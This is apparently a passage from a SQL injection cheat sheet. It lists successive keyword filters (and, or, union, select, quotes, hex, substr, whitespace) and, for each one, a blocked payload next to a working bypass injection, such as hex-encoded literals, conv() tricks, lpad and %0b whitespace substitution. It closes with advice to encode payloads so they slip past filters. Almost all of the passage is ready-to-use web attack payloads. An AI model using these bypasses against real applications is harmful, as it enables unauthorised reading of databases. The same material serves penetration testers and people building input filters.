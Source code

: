 ##### • Step 3:
__Keywords Filtered__: `and`, `or`, `union`, `where`, `limit`  
- __Blocked Attempt__: `1 || (select user from users limit 1) = 'admin'`
- __Bypassed Injection__: `1 || (select user from users group by user_id having user_id = 1) = 'admin'`

##### • Step 4:
__Keywords Filtered__: `and`, `or`, `union`, `where`, `limit`, `group by`  
- __Blocked Attempt__: `1 || (select user from users group by user_id having user_id = 1) = 'admin'`
- __Bypassed Injection__: `1 || (select substr(group_concat(user_id),1,1) user from users ) = 1`

##### • Step 5:
__Keywords Filtered__: `and`, `or`, `union`, `where`, `limit`, `group by`, `select`  
- __Blocked Attempt__: `1 || (select substr(gruop_concat(user_id),1,1) user from users) = 1`
- __Bypassed Injection__: `1 || 1 = 1 into outfile 'result.txt'`
- __Bypassed Injection__: `1 || substr(user,1,1) = 'a'`

##### • Step 6:
__Keywords Filtered__: `and`, `or`, `union`, `where`, `limit`, `group by`, `select`, `'`  
- __Blocked Attempt__: `1 || (select substr(gruop_concat(user_id),1,1) user from users) = 1`
- __Bypassed Injection__: `1 || user_id is not null`
- __Bypassed Injection__: `1 || substr(user,1,1) = 0x61`
- __Bypassed Injection__: `1 || substr(user,1,1) = unhex(61)`

##### • Step 7:
__Keywords Filtered__: `and`, `or`, `union`, `where`, `limit`, `group by`, `select`, `'`, `hex`  
- __Blocked Attempt__: `1 || substr(user,1,1) = unhex(61)`
- __Bypassed Injection__: `1 || substr(user,1,1) = lower(conv(11,10,36))`

##### • Step 8:
__Keywords Filtered__: `and`, `or`, `union`, `where`, `limit`, `group by`, `select`, `'`, `hex`, `substr`  
- __Blocked Attempt__: `1 || substr(user,1,1) = lower(conv(11,10,36))`
- __Bypassed Injection__: `1 || lpad(user,7,1)`

##### • Step 9:
__Keywords Filtered__: `and`, `or`, `union`, `where`, `limit`, `group by`, `select`, `'`, `hex`, `substr`, `white space`  
- __Blocked Attempt__: `1 || lpad(user,7,1)`
- __Bypassed Injection__: `1%0b||%0blpad(user,7,1)`

### Obfuscation:
#### Method:
- Encoding payload to different encodings (a hit and trial approach).
- You can encode whole payload, or some parts of it and test recursively.

